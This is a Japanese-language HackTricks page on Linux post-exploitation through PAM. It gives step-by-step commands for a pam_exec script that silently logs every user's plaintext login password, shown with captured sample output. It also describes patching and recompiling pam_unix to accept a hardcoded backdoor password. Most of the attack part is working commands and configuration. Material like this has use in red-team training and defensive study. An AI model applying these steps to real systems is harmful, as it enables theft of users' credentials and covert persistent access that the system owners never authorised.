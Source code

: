 # Linuxポストエクスプロイテーション

<details>

<summary><strong>**htARTE（HackTricks AWS Red Team Expert）**で**ゼロからヒーローまでAWSハッキングを学ぶ**</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>を学ぶ！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**したり、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**をフォロー**する
- **ハッキングテクニックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出**してください。

</details>

## PAMを使用してログオンパスワードをスニッフィングする

PAMモジュールを構成して、各ユーザーがログインに使用するパスワードを記録します。PAMが何かわからない場合は、次を確認してください：

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

まず、新しい認証が発生するたびに呼び出されるbashスクリプトを作成します。
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```
変数はPAM固有であり、`pam_exec.so`モジュールを介して利用可能になります。

以下は変数の意味です：

- **$PAM\_USER:** 入力されたユーザー名。
- **$PAM\_RHOST:** リモートホスト（通常はIPアドレス）
- **$(cat -):** これは`stdin`を読み取り、スクリプトが取得するパスワードが含まれます。
- 結果は`/var/log/toomanysecrets.log`にログファイルにパイプされます。

**すべてのユーザーがファイルを読めないようにする**には、事前に作成して`chmod`を実行することを検討してください。
```bash
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```
次に、PAM構成ファイルを更新する必要があります。`pam_exec`モジュールを使用してスクリプトを呼び出します。

`/etc/pam.d/`にはさまざまな構成ファイルがあり、`common-auth`を選択します。
```
sudo nano /etc/pam.d/common-auth
```
ファイルの最下部に、以下の認証モジュールを追加してください：

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

オプションの意味は次の通りです：

- **optional:** エラーが発生しても認証が失敗しない（必須ステップではない）
- **pam\_exec.so:** 任意のスクリプトを呼び出すことができる PAM モジュール
- **expose\_authtok:** `stdin` を介してパスワードを読み取るトリック
- **quiet:** ユーザーにエラーを表示しない（何かがうまくいかない場合）
- 最後の引数は以前に作成したシェルスクリプトです

![](<../../.gitbook/assets/image (375).png>)

最後に、ファイルを実行可能にします：

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`

これで、別のマシンから ssh したり、ローカルでログインしたりしてみてください。

そして、ログファイルを確認してください：
```
$ sudo cat /var/log/toomanysecrets.log
Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149
```
### PAMへのバックドア設置

PAMのソースコードに移動します（ディストリビューションによって異なりますが、自分のバージョンと同じものを使用してください）。そして、pam_unix_auth.cファイルの170/180行付近を調べてみましょう：
```
vi modules/pam_unix/pam_unix_auth.c
```
![](<../../.gitbook/assets/image (651).png>)

これを以下のように変更します：

![](<../../.gitbook/assets/image (638) (2) (2).png>)

これにより、**パスワード "0xMitsurugi"** を使用するユーザーがログインできるようになります。

`pam_unix_auth.c`を再コンパイルし、`pam_unix.so`ファイルを置き換えます。
```bash
make
sudo cp \
/home/mitsurugi/PAM/pam_deb/pam-1.1.8/modules/pam_unix/.libs/pam_unix.so \
/lib/x86_64-linux-gnu/security/
```
{% hint style="info" %}
このプロセスを[https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)で自動化することができます。
{% endhint %}

## 参考文献

* [https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)
* [https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
